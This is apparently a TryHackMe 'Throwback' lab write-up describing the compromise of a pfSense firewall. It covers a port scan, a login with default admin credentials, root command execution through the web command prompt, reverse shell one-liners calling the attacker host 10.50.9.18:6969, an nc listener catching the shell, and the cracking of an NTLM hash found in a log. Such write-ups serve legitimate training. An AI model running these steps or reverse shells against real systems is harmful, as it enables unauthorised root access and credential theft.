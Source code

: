 

# recon
```console
$ sudo ./pymap.py -t 10.200.11.138 -A
bibo318@parrot:~$ sudo /opt/pymap.py -t 10.200.11.138
                                                    
@@@@@@@   @@@ @@@  @@@@@@@@@@    @@@@@@   @@@@@@@  
@@@@@@@@  @@@ @@@  @@@@@@@@@@@  @@@@@@@@  @@@@@@@@  
@@!  @@@  @@! !@@  @@! @@! @@!  @@!  @@@  @@!  @@@  
!@!  @!@  !@! @!!  !@! !@! !@!  !@!  @!@  !@!  @!@  
@!@@!@!    !@!@!   @!! !!@ @!@  @!@!@!@!  @!@@!@!   
!!@!!!      @!!!   !@!   ! !@!  !!!@!!!!  !!@!!!    
!!:         !!:    !!:     !!:  !!:  !!!  !!:       
:!:         :!:    :!:     :!:  :!:  !:!  :!:       
 ::          ::    :::     ::   ::   :::   ::       
 :           :      :      :     :   : :   :        
Author: kuroHat
Github: https://github.com/bibo318


[+] Port scanning...
22/tcp  open  ssh
53/tcp  open  domain
80/tcp  open  http
443/tcp open  https
[+] Enumerating open ports...

PORT   STATE SERVICE VERSION
80/tcp open  http    nginx
|_http-title: Did not follow redirect to https://10.200.11.138/
|_https-redirect: ERROR: Script execution failed (use -d to debug)


PORT   STATE SERVICE VERSION
53/tcp open  domain  (generic dns response: REFUSED)
SF-Port53-TCP:V=7.80%I=7%D=11/2%Time=5FA07007%P=x86_64-pc-linux-gnu%r(DNSS
SF:tatusRequestTCP,E,"\0\x0c\0\0\x90\x05\0\0\0\0\0\0\0\0");


PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.5 (protocol 2.0)
| ssh-hostkey: 
|_  4096 38:04:a0:a1:d0:e6:ab:d9:7d:c0:da:f3:66:bf:77:15 (RSA)


PORT    STATE SERVICE VERSION
443/tcp open  https?
```
- http -> redirect to https -> **pfSense**

## web 443 pfSense
- admin credential `admin:pfsense` got from googling default credential [link](https://docs.netgate.com/pfsense/en/latest/usermanager/defaults.html)

Most of the time admin panel have a fuction that allow admin to execute a command on the server. I guess pfsense might offer it to. I then google `pfsense execute command on web` and it give me this [link](https://docs.netgate.com/pfsense/en/latest/diagnostics/command-prompt.html), BINGO!!

So let visit Diagnostics -> command-prompt. It seem like it allows us to excetue both php+shell commad. Let try if php work by executing 
`system('ping <kali_ip> -c 5');`. On kali run `tcpdump` to capture some `icmp` packets.
```console
bibo318@parrot:~$ sudo tcpdump -i tun0 icmp
18:30:36.545831 IP 10.200.11.138 > 10.50.9.18: ICMP echo request, id 55063, seq 2, length 64
18:30:36.545856 IP 10.50.9.18 > 10.200.11.138: ICMP echo reply, id 55063, seq 2, length 64
18:30:37.579047 IP 10.200.11.138 > 10.50.9.18: ICMP echo request, id 55063, seq 3, length 64
18:30:37.579096 IP 10.50.9.18 > 10.200.11.138: ICMP echo reply, id 55063, seq 3, length 64
18:30:38.695756 IP 10.200.11.138 > 10.50.9.18: ICMP echo request, id 55063, seq 4, length 64
18:30:38.695812 IP 10.50.9.18 > 10.200.11.138: ICMP echo reply, id 55063, seq 4, length 64
```
And ofc, it works!! btw, there is no need to do this but I just try to make it as a habbit. some time you can see result from executing code, this is good way to try if it work. I learned from **IPPSEC**.

Also, we can execute `Execute Shell Command` let try `id`
```
uid=0(root) gid=0(wheel) groups=0(wheel)
```
Wow, pfsense if run as root... what a luck. let spawn a reverse shell! I tired different reverse shell from [swisskyrepo](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#bash-tcp)
```
bash -i >& /dev/tcp/10.50.9.18/6969 0>&1
php -r '$sock=fsockopen("10.50.9.18",6969);exec("/bin/sh -i <&3 >&3 2>&3");'
php -r '$sock=fsockopen("10.50.9.18",6969);system("/bin/sh -i <&3 >&3 2>&3");'
```
none of the above works. So I use php-reverse-shell.php which is pre-install in kali. Just copy+paste the code `Execute PHP Commands`. On kali
```console
[10.50.9.18]-bibo318@parrot:~/THM/throwback$ nc -nlvp 6969
listening on [any] 6969 ...
connect to [10.50.9.18] from (UNKNOWN) [10.200.11.138] 64182
FreeBSD THROWBACK-FW01.THROWBACK.local 11.3-STABLE FreeBSD 11.3-STABLE #239 885b1ed26b6(factory-RELENG_2_4_5): Tue Jun  2 17:53:42 EDT 2020     root@buildbot1-nyi.netgate.com:/build/factory-crossbuild-245-amd64/obj/amd64/kkVaWThR/build/factory-crossbuild-245-amd64/sources/FreeBSD-src/sys/pfSense  amd64
11:43PM  up 27 mins, 2 users, load averages: 0.50, 0.55, 0.49
USER       TTY      FROM                                      LOGIN@  IDLE WHAT
root       u0       -                                        11:18PM    25 /bi 
root       v0       -                                        11:18PM    25 /bi 
uid=0(root) gid=0(wheel) groups=0(wheel)
sh: can't access tty; job control turned off
```
now go grab root flag.


There are 1 more flag on this firewall. from THM flag submission said *log flag*. 
```console
# pwd
/
# cd /var/log
# ls
dhcpd.log
dmesg.boot
filter.log
flag.txt
gateways.log
ipsec.log
l2tps.log
lastlog
login.log
nginx
nginx.log
ntp
ntpd.log
openvpn.log
poes.log
portalauth.log
ppp.log
relayd.log
resolver.log
routing.log
system.log
userlog
utx.lastlogin
utx.log
vpn.log
watchdogd.log
wireless.log
```
there are 2 interesting logs here
1. flag.txt
2. login.log
let `cat` it then
```console
# cat flag.txt
TBH{flag}
# cat login.log
Last Login 8/9/2020 15:51 -- HumphreyW:1c13639dba96c7b53d26f7d00956a364
```
Using [crackstation](https://crackstation.net/) to crack the hash
`1c13639dba96c7b53d26f7d00956a364	NTLM	securitycenter`